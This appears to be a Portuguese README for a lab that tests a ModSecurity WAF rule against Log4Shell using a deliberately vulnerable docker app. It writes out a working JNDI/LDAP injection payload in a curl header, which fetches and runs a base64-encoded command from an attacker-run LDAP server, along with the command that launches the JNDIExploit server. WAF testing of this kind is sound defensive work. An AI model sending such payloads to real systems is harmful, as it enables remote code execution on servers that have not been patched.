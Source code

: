 ### Testando a regra de ModSec ###

### Pré requisitos ###
- Ter docker instalado
- Ter Java instalado na sua máquina

### Executando o teste ###
- Realizar o git clone do repositorio
- Executar o comando abaixo para subir o WAF (ModSec) e a aplicação vulneravel
```sh 
docker stack deploy -c docker-compose.yml WAF
``` 
- Extrair o JNDIExploit.v1.2.zip que está no repositorio, entrar na pasta e executar o comando abaixo, sendo que o $IP deve se o IP da sua máquina, não recomendo que coloque o 127.0.0.1
```sh 
java -jar ./JNDIExploit-1.2-SNAPSHOT.jar -i $IP -p 8888
``` 
- Para testar o RCE execute o curl abaixo alterando o $IP pelo IP da sua máquina, ele vai criar um arquivo pwned dentro de /tmp da aplicação vulneravel
```sh 
curl 127.0.0.1:80 -H 'X-Api-Version: ${jndi:ldap://$IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
``` 


### Pergunta dos universitarios ###

1- Como saber se o meu WAF e aplicação WEB vulneravel subiu ?

Execute ```docker service ls``` , e verifique se tem dois serviços cada um com uma replica.

2- Como pegar log do modsec?

Execute ```docker exec -ti $(docker container ls | grep "felipe8398/redirector:latest"| awk '{print $1}') cat /var/log/apache2/error.log```

3- Como verificar se o RCE não deu certo?

O curl que utilizamos cria um arquivo com nome pwned dentro de tmp dessa forma precisamosa executar 
```docker exec -ti $(docker container ls | grep ghcr.io/christophetd/log4shell-vulnerable-app:latest | awk '{print $1}') ls /tmp```
